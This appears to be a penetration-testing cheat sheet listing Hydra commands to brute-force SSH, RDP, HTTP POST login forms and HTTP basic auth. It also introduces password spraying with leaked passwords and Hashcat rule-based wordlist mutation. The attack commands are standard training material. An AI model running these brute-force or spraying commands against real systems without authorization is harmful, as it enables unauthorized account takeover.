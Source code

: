 # Hydra

A very good tool for password bruteforcing is hydra.
## SSH

The following attack uses the wordlist.txt file to bruteforce the admin user for SSH login.

```shell
hydra -L admin -P wordlist.txt <target-ip> ssh -t 4
```

If the password is know, It could be used the tecnnique **password spraying** where the passwords remain constant and the username is bruteforced. This is useful if we gain passwords from a dataleak.
## RDP

A RDP attack could be this

```shell
hydra -L Administrator -P wordlist.txt <target-ip> rdp -t 4
```
## HTTP POST Login Form

This works with login forms using POST requests

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
## HTTP Basic Auth

This works with HTTP basic auth protocol

```shell
hydra -l admin -P rockyou.txt <target-ip> http-get
```

# Rule-Based Wordlist Mutations

Rule-based attacks allow us to mutate existing wordlists so they meet password policy requirements. Instead of relying solely on dictionary words, we apply **rule functions** that transform each word in the list. Rules can append, prepend, capitalize, or otherwise alter words, massively increasing the number of password candidates.
## Appending Numbers

The simplest example is appending a number to each password. Using the `$` rule function with Hashcat, we can append characters. For example, to append a `1`:

```bash
echo \$1 > demo.rule
hashcat -r demo.rule --stdout demo.txt
```

